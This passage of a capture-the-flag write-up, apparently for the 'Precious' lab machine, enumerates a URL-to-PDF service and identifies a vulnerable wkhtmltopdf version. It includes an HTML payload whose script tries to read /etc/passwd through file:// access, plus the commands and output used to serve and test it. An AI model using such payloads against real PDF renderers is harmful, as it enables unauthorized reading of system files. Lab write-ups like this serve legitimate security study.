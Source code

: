 - I enter as URL [`http://10.10.14.49:4444`](http://10.10.14.49:4444) and I get
    ```
    GET / HTTP/1.1
    Host: 10.10.14.49:4444
    User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/10.0 Safari/602.1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Connection: Keep-Alive
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,*
    ```

    thanks to the header `wkhtmltopdf Version/10.0` I find immediately: [https://github.com/advisories/GHSA-36cg-hvm7-mhwp](https://github.com/advisories/GHSA-36cg-hvm7-mhwp)

    exploit: [https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536](https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536) &#8594; `all version ( <=0.12.5 )`

    I create a `111.html` file
    ```html
    <!DOCTYPE html>
    <html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">

    <body>

    <script>
    x=new XMLHttpRequest;
    x.onload=function(){ document.write(this.responseText) };
    x.open("GET","file:///etc/passwd");
    x.send();
    </script>

    </body></html>
    ```

    `python3 -m http.server 8000 --directory .` and put as path [`http://10.10.14.49:8000/111.html`](http://10.10.14.49:8000/111.html)
    
    the pdf that I get in output is empty, maybe the `--disable-local-file-access` flag is active

- inserting [`http://localhost:80`](http://localhost:80) or [`http://127.0.0.1:80`](http://127.0.0.1:80) will only load the page but not download the pdf

- `whatweb http://precious.htb/`
    ```
    http://precious.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.18.0 + Phusion Passenger(R) 6.0.15], IP[10.10.11.189], Ruby-on-Rails, Title[Convert Web Page to PDF], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-Powered-By[Phusion Passenger(R) 6.0.15], X-XSS-Protection[1; mode=block], nginx[1.18.0]
    ```

    server side is present the web framework: `Ruby-on-Rails`

    `Phusion Passenger(R) 6.0.15` is interesting: A fast and robust web server and application server for Ruby, Python and Node.js

    has no known vulnerabilities that version because it is up-to-date: [https://github.com/phusion/passenger/releases](https://github.com/phusion/passenger/releases)
